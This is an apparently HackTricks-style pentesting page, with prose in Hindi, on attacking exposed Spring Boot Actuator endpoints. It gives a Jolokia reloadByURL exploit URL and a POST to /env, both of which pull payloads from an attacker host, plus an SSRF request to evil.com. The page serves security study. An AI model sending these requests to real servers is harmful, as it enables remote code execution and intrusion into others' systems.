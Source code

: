 # Spring Actuators

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
{% endhint %}

## **Spring Auth Bypass**

<figure><img src="../../.gitbook/assets/image (927).png" alt=""><figcaption></figcaption></figure>

**From** [**https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png**](https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png)\*\*\*\*

## Exploiting Spring Boot Actuators

**Check the original post from** \[**https://www.veracode.com/blog/research/exploiting-spring-boot-actuators**]

### **Key Points:**

* Spring Boot Actuators ऐसे एंडपॉइंट्स रजिस्टर करते हैं जैसे कि `/health`, `/trace`, `/beans`, `/env`, आदि। संस्करण 1 से 1.4 में, ये एंडपॉइंट्स बिना प्रमाणीकरण के उपलब्ध हैं। संस्करण 1.5 से आगे, केवल `/health` और `/info` डिफ़ॉल्ट रूप से गैर-संवेदनशील हैं, लेकिन डेवलपर्स अक्सर इस सुरक्षा को बंद कर देते हैं।
* कुछ Actuator एंडपॉइंट्स संवेदनशील डेटा को उजागर कर सकते हैं या हानिकारक क्रियाओं की अनुमति दे सकते हैं:
* `/dump`, `/trace`, `/logfile`, `/shutdown`, `/mappings`, `/env`, `/actuator/env`, `/restart`, और `/heapdump`।
* Spring Boot 1.x में, एक्ट्यूएटर्स को रूट URL के तहत रजिस्टर किया जाता है, जबकि 2.x में, ये `/actuator/` बेस पाथ के तहत होते हैं।

### **Exploitation Techniques:**

1. **Remote Code Execution via '/jolokia'**:
* `/jolokia` एक्ट्यूएटर एंडपॉइंट Jolokia लाइब्रेरी को उजागर करता है, जो MBeans तक HTTP पहुंच की अनुमति देता है।
* `reloadByURL` क्रिया का उपयोग बाहरी URL से लॉगिंग कॉन्फ़िगरेशन को फिर से लोड करने के लिए किया जा सकता है, जो अंधे XXE या कस्टम XML कॉन्फ़िगरेशन के माध्यम से रिमोट कोड निष्पादन की ओर ले जा सकता है।
* उदाहरण एक्सप्लॉइट URL: `http://localhost:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/artsploit.com!/logback.xml`।
2. **Config Modification via '/env'**:
* यदि Spring Cloud Libraries मौजूद हैं, तो `/env` एंडपॉइंट पर्यावरणीय गुणों में संशोधन की अनुमति देता है।
* गुणों का हेरफेर करके कमजोरियों का लाभ उठाया जा सकता है, जैसे Eureka serviceURL में XStream deserialization की कमजोरी।
*   उदाहरण एक्सप्लॉइट POST अनुरोध:

```
POST /env HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

eureka.client.serviceUrl.defaultZone=http://artsploit.com/n/xstream
```
3. **Other Useful Settings**:
* गुण जैसे `spring.datasource.tomcat.validationQuery`, `spring.datasource.tomcat.url`, और `spring.datasource.tomcat.max-active` का हेरफेर विभिन्न एक्सप्लॉइट्स के लिए किया जा सकता है, जैसे SQL injection या डेटाबेस कनेक्शन स्ट्रिंग्स को बदलना।

### **Additional Information:**

* डिफ़ॉल्ट एक्ट्यूएटर्स की एक व्यापक सूची [यहां](https://github.com/artsploit/SecLists/blob/master/Discovery/Web-Content/spring-boot.txt) पाई जा सकती है।
* Spring Boot 2.x में `/env` एंडपॉइंट गुण संशोधन के लिए JSON प्रारूप का उपयोग करता है, लेकिन सामान्य अवधारणा वही रहती है।

### **Related Topics:**

1. **Env + H2 RCE**:
* `/env` एंडपॉइंट और H2 डेटाबेस के संयोजन का लाभ उठाने के विवरण [यहां](https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database) पाया जा सकता है।
2. **SSRF on Spring Boot Through Incorrect Pathname Interpretation**:
* HTTP पथ नामों में मैट्रिक्स पैरामीटर (`;`) के हैंडलिंग का Spring फ्रेमवर्क Server-Side Request Forgery (SSRF) के लिए शोषण किया जा सकता है।
*   उदाहरण एक्सप्लॉइट अनुरोध:

```http
GET ;@evil.com/url HTTP/1.1
Host: target.com
Connection: close
```
{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
</details>
{% endhint %}
